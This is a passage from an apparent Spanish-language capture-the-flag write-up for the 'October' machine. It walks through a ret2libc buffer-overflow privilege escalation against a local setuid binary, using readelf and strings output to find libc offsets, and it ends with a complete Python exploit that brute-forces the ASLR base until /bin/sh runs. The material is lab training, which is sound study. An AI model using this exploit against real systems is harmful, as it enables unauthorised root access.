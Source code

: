 Debido a que se está aplicando ASLR, debemos obtener la dirección base de *libc* que para este caso será `0xb75c7000` (este valor se obtiene ejecutando el comando `ldd`). Ahora debemos de obtener las direciones de las funciones *system address* y *exit address* a la librería *libc*.

```bash
www-data@october:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "\ssystem|\sexit"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:~$
```

Por útimo nos falta la dirección de la `/bin/sh` de la librería *libc*:

```bash
www-data@october:~$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"           
 162bac /bin/sh
www-data@october:~$ 
```

Retomando todo lo anterior, tenemos lo siguiente:
- offset = 112
- base_libc = 0xb75c7000
- junk = "A"*offset
- system_addr_offset = 0x00040310
- exit_addr_offset = 0x00033260
- bin_sh_addr_offset = 0x00162bac

Debido al ASLR, para calcular las direcciones reales para cuando *base_libc* vale `0xb75c7000` tenemos que sumarles dicho valor a los *offsets* de la funciones:
- system_addr = base_libc + system_addr_offset
- exit_addr = base_libc + exit_addr_offset
- bin_sh_addr = base_libc + bin_sh_addr_offset

Y el valor del payload completo sería:
- payload = junk + system_addr + exit_addr + bin_sh_addr

Ahora si, con todo esto, ya podemos armar nuestro programa en python:

```python
#!/usr/bin/python
import sys

from struct import pack
from subprocess import call

if __name__ == '__main__':
        base_libc = 0xb75c7000
        offset = 112
        junk = "A"*offset

        # ret2libc -> system_addr + exit_addr + bin_sh_addr
        system_addr_offset = 0x00040310
        exit_addr_offset = 0x00033260
        bin_sh_addr_offset = 0x00162bac

        system_addr = pack("<I", base_libc + system_addr_offset)
        exit_addr = pack("<I", base_libc + exit_addr_offset)
        bin_sh_addr = pack("<I", base_libc + bin_sh_addr_offset)

        payload = junk + system_addr + exit_addr + bin_sh_addr

        while True:
                ret = call(["/usr/local/bin/ovrflw", payload])
                if ret == 0:
                        print "\n[!] Saliendo..."
                        sys.exit(0)
```
